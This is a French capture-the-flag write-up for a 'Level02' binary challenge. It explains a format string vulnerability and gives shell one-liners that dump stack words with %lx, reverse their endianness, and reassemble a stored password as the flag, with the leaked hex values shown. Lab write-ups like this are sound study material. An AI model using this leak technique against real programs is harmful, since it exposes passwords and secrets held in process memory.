 ## Level02

![image](https://user-images.githubusercontent.com/29956389/95171955-f4f3e900-07b6-11eb-9710-c7480feaccc0.png)

On observe que le binaire charge le fichier `.pass` et compare le mot de passe utiliateur a cette string.

La vulnérabilité réside a l'instruction <main+654>: une exploitation format string.

Sachant que le fichier `.pass` est chargé, et le contenu chargé dans une variable sur la stack, on peut afficher le contenu de la stack pour trouver le `pass`.

On dump alors la stack avec `%lx`:

`$ for i in {1..42}; do echo \%$i\$lx | ~/level02 | grep does; done`

![image](https://user-images.githubusercontent.com/29956389/95172470-a7c44700-07b7-11eb-8a7b-656314935e58.png)

On observe ceci:

  `756e505234376848 does not have access!`
  
  `45414a3561733951 does not have access!`
  
  `377a7143574e6758 does not have access!`
  
  `354a35686e475873 does not have access!`
  
  `48336750664b394d does not have access!`
  
  Pour isoler les valeurs importante:
  
  `$ for i in {22..26}; do echo \%$i\$lx | ~/level02 | grep does| awk -F" " '{print $1}'; done`
  
  Il faut aussi penser a changer l'indianness, avant de convertir ces valeurs hexadecimaux en charactères:
  
  `$ for i in {22..26}; do echo \%$i\$lx | ~/level02 | grep does | awk -F" " '{print $1}' | xxd -r -p | rev ; done`
  
  Concaténer les resultat obtenus:
  
  `$ for i in {22..26}; do echo \%$i\$lx | ~/level02 | grep does | awk -F" " '{print $1}' | xxd -r -p | rev | tr -d '\n'; done ; echo ""`
  
  Et voila le flag.

